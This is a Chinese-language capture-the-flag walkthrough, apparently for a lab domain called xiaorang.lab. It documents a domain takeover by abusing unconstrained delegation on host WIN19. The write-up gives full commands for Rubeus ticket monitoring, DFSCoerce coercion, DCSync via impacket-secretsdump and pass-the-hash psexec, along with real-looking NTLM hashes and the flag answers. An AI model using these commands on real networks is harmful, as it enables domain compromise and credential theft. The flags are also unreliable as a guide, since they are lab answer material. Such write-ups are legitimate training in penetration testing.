

‍

## DC

基于无约束委派(Unconstrained Delegation)的域控接管

如果我能让**域控 DC01 主动来认证 WIN19**,那 DC01 机器账户(`DC01$`​)的 TGT 就会落在 WIN19 内存里。而 `DC01$`​ 是域控的机器账户,天然具备 DCSync 权限(能同步域内所有账户的哈希)。拿到它的 TGT \= 拿到整个域。



‍

## DFSCoerce&Rubeus.exe

```text
D:\HOME\Downloads\kali_tools\my_tools\win\DFSCoerce
D:\HOME\Downloads\kali_tools\my_tools\win\Ghostpack-CompiledBinaries-master\Rubeus.exe # 传到WIN19$
```

‍

先再 win19 里面 运行

```py
Rubeus.exe monitor /interval:5 /nowrap /filteruser:DC01$
```



然后 kali 用执行以下命令，windows 段就拿到 一串base64

```py
proxychains4 -q python dfscoerce.py -u "WIN19$" -hashes :6a3fe5cab076a03ce49456240ca42dcb -d xiaorang.lab WIN19 172.22.4.7
```



‍

```py
sudo ntpdate 172.22.4.7
echo '<base64>' | base64 -d > dc01.kirbi
proxychains4 -q impacket-ticketConverter dc01.kirbi dc01.ccache
export KRB5CCNAME=dc01.ccache
proxychains4 -q impacket-secretsdump  administrator 'xiaorang.lab/DC01$'@DC01.xiaorang.lab -k -no-pass -just-dc-user
```



拿到域控计算机的管理员NTLM 就可以登录任意域内计算机了

```py
proxychains4 -q impacket-psexec -hashes :4889f6553239ace1f7c47fa2c619c252 \
  'xiaorang.lab/administrator@172.22.4.45' -dc-ip 172.22.4.7
```

‍

## flag-03

```py
C:\Users\Administrator\flag>type flag03.txt
   . .       . .       .         . .       . .       . .       . .    .    .       . .       . .    
.+'|=|`+. .+'|=|`+. .+'|      .+'|=|`+. .+'|=|`+. .+'|=|`+. .+'|=|`+.=|`+. |`+. .+'|=|`+. .+'|=|`+. 
|  | `+ | |  | `+.| |  |      |  | `+.| |  | `+.| |  | |  | |.+' |  | `+.| |  | |  | |  | |  | `+ | 
|  |  | | |  |=|`.  |  |      |  |=|`.  |  | .    |  |=|  |      |  |      |  | |  | |  | |  |  | | 
|  |  | | |  | `.|  |  |      |  | `.|  |  | |`+. |  | |  |      |  |      |  | |  | |  | |  |  | | 
|  |  | | |  |    . |  |    . |  |    . |  | `. | |  | |  |      |  |      |  | |  | |  | |  |  | | 
|  | .+ | |  | .+'| |  | .+'| |  | .+'| |  | .+ | |  | |  |      |  |      |  | |  | |  | |  |  | | 
`+.|=|.+' `+.|=|.+' `+.|=|.+' `+.|=|.+' `+.|=|.+' `+.| |..|      |.+'      |.+' `+.|=|.+' `+.|  |.| 


flag03: flag{94b52790-288e-4aa0-a0db-382cca9a9f83}


Here is fileserver.xiaorang.lab, you might find something interesting on this host that can help you!
```

‍

## flag04

```py
 ______   _______  _        _______  _______  _______ __________________ _______  _       
(  __  \ (  ____ \( \      (  ____ \(  ____ \(  ___  )\__   __/\__   __/(  ___  )( (    /|
| (  \  )| (    \/| (      | (    \/| (    \/| (   ) |   ) (      ) (   | (   ) ||  \  ( |
| |   ) || (__    | |      | (__    | |      | (___) |   | |      | |   | |   | ||   \ | |
| |   | ||  __)   | |      |  __)   | | ____ |  ___  |   | |      | |   | |   | || (\ \) |
| |   ) || (      | |      | (      | | \_  )| (   ) |   | |      | |   | |   | || | \   |
| (__/  )| (____/\| (____/\| (____/\| (___) || )   ( |   | |   ___) (___| (___) || )  \  |
(______/ (_______/(_______/(_______/(_______)|/     \|   )_(   \_______/(_______)|/    )_)


Awesome! Now you have taken over the entire domain network.


flag04: flag{b5a004c6-dd7a-47e7-899b-9b4dbd932e72}
```

‍

```py
Adrian(过期密码,改密)
  → WIN19 本地提权到 SYSTEM
    → dump 出 WIN19$ 机器哈希
      → WIN19 有无约束委派(BloodHound: CoerceToTGT)
        → Rubeus monitor 挂监听 + DFSCoerce 逼 DC01 来认证
          → 抓到 DC01$ 的 TGT
            → DCSync 拉 administrator/krbtgt → 拿下域控
```
